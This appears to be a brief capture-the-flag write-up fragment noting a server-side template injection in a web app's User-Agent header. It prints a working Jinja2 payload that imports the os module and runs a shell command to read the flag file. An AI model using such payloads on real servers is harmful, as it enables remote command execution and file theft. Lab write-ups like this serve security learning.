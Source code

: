 * SSTI in user-agent header
* User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 {{request.application.__globals__.__builtins__.__import__('os').popen('cat /app/flag/flag.txt').read()}}

